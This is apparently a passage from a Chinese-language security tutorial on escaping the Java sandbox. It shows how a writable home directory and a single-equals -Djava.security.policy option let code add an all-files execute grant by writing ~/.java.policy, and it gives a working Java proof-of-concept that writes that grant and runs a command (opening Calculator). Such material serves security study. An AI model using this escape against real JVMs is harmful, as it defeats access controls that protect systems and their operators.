 - 前面在对沙箱了解过程中，可以发现除了java安全管理器外，其他的基本上都是内置的，是我们不可控的，所以要对Java沙箱逃逸，其实就是对Java Security Manager的绕过。

## 单等号+home目录可写绕过

- 在前面的java.security中看到，默认加载的policy有两个，一个是java.policy在JRE_HOME/lib/security下，另外一个则是policy.url.2=file:${user.home}/.java.policy，即home目录

- 并且在通过-Djava.security.policy指定policy文件的时候，如果后面只有一个等号，在可以在原本的基础上加上制定的policy文件

- 现在有这样一个场景，开发者自定义了一个策略文件，其中包括home目录的写

  ```
  grant {
      permission java.io.FilePermission "/Users/DawnT0wn-", "read,write";
  };
  ```

- 运行下面java代码

  ```
  package com.evil;
  
  import java.io.File;
  import java.io.FileInputStream;
  import java.io.FileWriter;
  import java.io.IOException;
  import java.net.Socket;
  
  public class Poc {
      public static void main(String[] args) throws IOException {
          //Run with: -Djava.security.manager -Djava.security.policy=rewrite-home-policy.policy
          //通过这种方法绕过时，需要先写入.java.policy文件，然后重启jvm，.java.policy才能加载进来。
          exec("open -a Calculator");
          bypass();
      }
  
      public static void bypass() {
          final String homePolicyFile = "grant {\n" +
                  "    permission java.io.FilePermission \"<<ALL FILES>>\", \"execute\";\n" +
                  "};";
          try {
              FileWriter writer = new FileWriter("/Users/DawnT0wn/.java.policy");
              writer.write(homePolicyFile);
              writer.close();
          } catch (IOException e) {
              e.printStackTrace();
          }
      }
  
      public static void exec(String command) {
          try {
              Runtime.getRuntime().exec(command);
          } catch (Exception e) {
              e.printStackTrace();
          }
      }
  }
  ```
